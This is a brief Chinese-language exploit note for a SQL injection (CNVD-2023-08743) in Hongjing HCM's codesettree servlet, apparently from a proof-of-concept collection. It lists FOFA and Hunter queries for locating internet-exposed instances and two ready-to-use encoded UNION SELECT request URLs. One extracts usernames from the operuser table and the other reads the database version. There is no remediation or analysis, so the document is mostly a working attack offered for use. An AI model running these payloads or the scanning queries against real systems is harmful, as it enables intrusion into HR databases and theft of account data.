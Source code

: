 # 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-08743

## 网络测绘

fofa: app="HJSOFT-HCM"

hunter: app.name="宏景 HCM"

## POC / EXP

```
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d

/servlet/codesettree?categories=~31~27~20union~20all~20select~20~27hongjing~27~2c~40~40version~2d~2d&codesetid=1&flag=c&parentid=-1&status=1
```